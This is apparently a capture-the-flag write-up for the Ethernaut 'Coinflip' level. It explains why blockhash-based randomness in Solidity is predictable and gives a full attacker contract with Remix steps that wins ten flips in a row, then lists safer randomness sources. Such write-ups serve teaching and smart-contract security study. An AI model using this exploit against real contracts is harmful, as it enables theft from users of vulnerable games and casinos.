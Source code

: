 # Coinflip

## Key:

> Do not rely on block.timestamp, now and blockhash as a source of randomness, unless you know what you are doing. Both the timestamp and the block hash can be influenced by miners to some degree. Bad actors in the mining community can for example run a casino payout function on a chosen hash and just retry a different hash if they did not receive any money.
> https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html

**We can create an attacker contract with the same non-random algorithm that invoque the victim's flip function with the correct answer precalculated**

## Attacker contract

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol';
import './CoinFlip.sol';

contract CoinFlipAttack {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip public victimContract;

  constructor() public {
    // Change to victims address instanciation
    victimContract = CoinFlip(0x2AC87251F9811CA75e6A2e11Cf91E38b1Cc91042);
  }

  function flip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    victimContract.flip(side);
  }
}
```

### Exploitation

1. Load Coinflip.sol original code in Remix, and deploy it.
2. Load and deploy CoinflipAttack.sol with the address of the instance of the Coinflip contract given by Ethernaut's `contract.address()`.
3. Use Remix to flip coins 10 times in the CoinFlipAttacker contract.
   4 Verify the accumulator `consecutiveWins` is now 10

```js
await contract.consecutiveWins();
```

## Post solution info

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
